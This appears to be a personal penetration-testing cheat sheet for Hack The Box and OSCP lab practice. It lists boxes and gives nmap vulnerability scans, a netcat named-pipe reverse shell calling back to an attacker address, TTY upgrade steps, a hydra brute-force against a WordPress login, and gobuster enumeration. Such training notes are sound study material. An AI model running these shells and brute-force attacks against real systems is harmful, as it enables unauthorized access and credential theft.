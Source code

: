 # HTB boxes
- [x] Lame
- [x] Beep
- [ ] Bastard
- [ ] Grandpa/Granny
- [x] Mirai
- [x] Solidstate
- [ ] Jeeves
- [ ] Tally (Much harder than anything on OSCP, but you've gotta get used to windows)
- [x] Bashed
- [x] Nibbles
- [ ] Sense
- [ ] Valentine
- [ ] Bart (Again, same issue but really get used to windows)
- [ ] Chatterbox
- [ ] Popcorn
- [ ] Haircut
- [ ] Nineveh
- [ ] Shocker
- [ ] Cronos
- [ ] Arctic
- [ ] Optimum
- [ ] Davel

### nmaps

nmap -sV --script=exploit,external,vuln,auth,default -oN nmap-version-exploits.txt 10.11.1.220

nmap -sV --reason --dns-server 10.11.1.220 -oN nmap-versions.txt 10.11.1.220

nmap -sC -sV -oA

use burp proxy backwards
- add new proxy listener. then put localhost to a port for the ip you want to inspect. now when you connect to it with the web browser on port 80 you will intercept everything

### getting an actual terminal

#### 1

`victim$ mknod /tmp/backpipe p`

`victim$ /bin/sh 0</tmp/backpipe | nc 10.10.14.9 445 1>/tmp/backpipe `

#### 2

maybe set `TERM=xterm`

to edit the file `^Z` to background the shell.

now `stty raw -echo` then `fg` the shell then hit enter a few times.

### assorted

- hydra -V -l admin -P /usr/share/wordlists/rockyou.txt 10.11.1.234 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=ERROR" -t 32 -I
- searchsploit -x to view
- searchsploit -p copies to clipboard
- gobuster dir -u http://10.10.10.14 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gouster-2.3-medium.txt
